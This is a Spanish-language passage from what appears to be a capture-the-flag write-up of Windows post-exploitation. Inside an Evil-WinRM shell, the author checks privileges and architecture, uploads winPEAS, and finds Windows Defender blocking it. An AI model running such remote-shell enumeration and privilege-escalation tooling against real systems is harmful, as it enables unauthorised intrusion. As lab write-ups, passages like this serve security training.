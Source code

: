 Tampoco tengo ni privilegio del que pueda abusar

```null
*Evil-WinRM* PS C:\> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

No puedo ver la arquitectura del sistema

```null
*Evil-WinRM* PS C:\Temp> systeminfo
Program 'systeminfo.exe' failed to run: Access is deniedAt line:1 char:1
+ systeminfo
+ ~~~~~~~~~~.
At line:1 char:1
+ systeminfo
+ ~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

Para saber si estoy en 64 bits o 32 bits, utilizo una sentencia en Powershell

```null
*Evil-WinRM* PS C:\Temp> [Environment]::Is64BitOperatingSystem
True
*Evil-WinRM* PS C:\Temp> [Environment]::Is64BitProcess
True
```

En caso de que no estuviera en un proceso de 64bits, prodría lanzar directamente la powershell nativa del sistema

Subo el WinPeas para aplicar reconocimiento

```null
*Evil-WinRM* PS C:\Temp> upload /opt/winpeas.exe
Info: Uploading /opt/winpeas.exe to C:\Temp\winpeas.exe

                                                             
Data: 2624852 bytes of 2624852 bytes copied

Info: Upload successful!
```

Si trato de ejecutarlo, me salta el Defender

```null
*Evil-WinRM* PS C:\Temp> ./winpeas.exe
Program 'winpeas.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ ./winpeas.exe
+ ~~~~~~~~~~~~~.
At line:1 char:1
+ ./winpeas.exe
+ ~~~~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

